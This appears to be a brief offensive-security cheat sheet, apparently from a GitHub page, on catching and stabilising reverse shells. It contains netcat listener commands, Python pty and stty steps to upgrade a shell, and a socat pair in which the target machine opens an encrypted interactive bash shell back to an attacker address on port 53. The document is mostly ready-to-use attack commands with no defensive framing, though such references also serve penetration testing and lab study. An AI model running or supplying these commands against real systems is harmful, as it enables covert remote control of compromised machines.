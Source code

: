 ## Netcat Shell stabilisation

### Technique 1
```
sudo nc -nvlp 443
python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
^Z

stty raw -echo; fg
```

### Technique 2

```
rlwrap nc -lvnp <port>
^Z
stty raw -echo; fg
```


## Socat

Attacker :
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

On the target machine :
```
socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
